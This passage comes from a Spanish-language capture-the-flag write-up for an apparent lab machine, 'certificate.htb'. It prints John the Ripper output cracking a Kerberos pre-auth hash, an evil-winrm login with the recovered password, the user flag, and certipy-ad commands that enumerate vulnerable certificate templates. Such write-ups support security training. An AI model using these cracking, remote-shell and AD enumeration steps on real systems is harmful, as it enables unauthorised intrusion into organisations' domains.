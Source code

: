 Info:

```
Warning: detected hash type "krb5pa-sha1", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "krb5pa-sha1", but the string is also recognized as "HMAC-SHA512"
Use the "--format=HMAC-SHA512" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (krb5pa-sha1, Kerberos 5 AS-REQ Pre-Auth etype 17/18 [PBKDF2-SHA1 128/128 AVX 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)     
1g 0:00:00:01 DONE (2025-10-18 11:55) 0.8620g/s 12358p/s 12358c/s 12358C/s 120806..cherry13
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado, por lo que vamos a probar a conectarnos por `WinRM` con dichas credenciales del usuario.

```shell
evil-winrm -i <IP> -u lion.sk -p '!QAZ2wsx'
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> whoami
certificate\lion.sk
```

Veremos que ha funcionado, por lo que leeremos la `flag` del usuario.

> user.txt

```
978c3a725757604598778d7c74b136e9
```

## Escalate user ryan.k

Vamos a ver si descubre alguna vulnerabilidad o no en el `dominio` del `AD` con una herramienta:

```shell
apt install certipy-ad
certipy-ad find -u lion.sk@certificate.htb -p '!QAZ2wsx' -dc-ip <IP> -vulnerable
```
